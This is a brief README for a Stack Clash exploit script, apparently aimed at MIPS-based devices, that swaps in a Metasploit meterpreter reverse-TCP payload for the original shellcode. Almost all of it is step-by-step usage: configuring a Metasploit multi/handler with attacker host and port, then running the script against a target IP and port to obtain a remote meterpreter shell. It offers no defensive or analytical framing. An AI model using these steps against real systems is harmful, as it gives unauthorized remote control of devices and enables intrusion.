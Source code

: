 # Stack Clash exploit using reverse meterpreter shell.
It using linux/mipsbe/meterpreter/reverse_tcp payload of metasploit instead of shell code by BigNerd95.

All other things are the same.

# How to get a reverse shell?
1. First, prepare metasploit multi handler on your computer
  > use exploit/multi/handler
  > set payload linux/mipsbe/meterpreter/reverse_tcp
  > set LHOST `YOUR IP`
  > set LPORT  `YOUR LPORT`
  > run
2. After that execute the script
  ./StackClash_mips.py TARGET_IP TARGET_PORT www_binary LHOST LPORT
  Now, you will get a meterpreter shell!
